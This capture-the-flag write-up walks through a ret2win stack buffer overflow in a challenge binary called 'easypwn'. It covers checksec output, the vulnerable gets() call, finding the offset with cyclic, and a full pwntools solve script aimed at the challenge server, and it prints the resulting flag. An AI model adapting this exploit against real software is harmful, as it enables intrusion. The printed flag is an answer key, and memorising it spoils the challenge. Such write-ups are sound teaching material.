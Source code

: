 # EASYPWN

<p>
    <img src="img/easypwn_chall.png" alt="Challenge" width="500"/>
</p>

```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ ./easypwn
Hello!
What's your name?
asd
Goodbye, asd!
```

Looking at the protections on the binary, we see that most of them are turned off
```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ pwn checksec ./easypwn
[*] '/home/loevland/ctf/ept/pwn/easypwn/easypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


When reversing the binary in IDA we see that the `main` function calls the `hello` function, which asks for our name and prints it.
```c
int __fastcall main(int argc, const char **argv, const char **envp){
  ignore_me_init_buffering(argc, argv, envp);
  hello();
  return 0;
}
```

```c
int hello(){
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF
  puts("Hello!");
  puts("What's your name? ");
  gets(v1);
  return printf("Goodbye, %s!\n", v1);
}
```

There is also a function `winner` inside the binary, which is not called anywhere, but will print us the flag if called. A classic ret2win challenge.


We can see in the `hello` function that `gets(v1)` is called. `gets` is dangerous to use, because it reads in *everything* that is given as input, leading to buffer overflows being possible. Also, since we can see from running `checksec` that there is no stack canaries, nothing stops us from performing the buffer overflow.


Given that buffer `v1` is only 32 bytes in size, if we supply more than 32 bytes we will overflow and overwrite values on the stack. The return address is stored on the stack, so if we overflow it we can redirect the program execution to run the `winner` function, instead of returning back to `main`.


If we send a *cyclic* sequence as input, we can read the address where we crashed, which is `0x6161616161616166`. The `cyclic -l 0x6161616161616166` in pwndbg gives us the offset to this subsequence.
<p>
    <img src="img/gdb_offset.png" alt="Challenge" width="500"/>
</p>

```console
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Knowing the offset we can construct a payload which overflows the `v1` buffer and parts of the stack (with non-important values) with 40 bytes, and then overwrites the return address located on the stack with the address of `winner`. When the `hello` function returns, the `winner` function should then be called instead, because of our overwrite.

The address of `winner` finds *pwntools* for us (but can also be found in many other ways, such as IDA, Objdump, and more).

```python
payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes
```

We can construct a solve script
```python
from pwn import *

exe = context.binary = ELF("./easypwn", checksec=False)
io = remote("io.ept.gg", 30004)
io.clean()                     # Skip the stuff printed in the terminal before our input

payload = b"A" * 40            # Padding to the return address on the stack
payload += p64(exe.sym.winner) # Convert the address we want to call into bytes

io.sendline(payload)
io.interactive()
```

Running the solve-script on the remote instance gives us the flag
```console
loevland@hp-envy:~/ctf/ept/pwn/easypwn$ python3 solve.py
[+] Opening connection to io.ept.gg on port 30004: Done
[*] Switching to interactive mode
Hello!
What's your name?
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6\x12@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```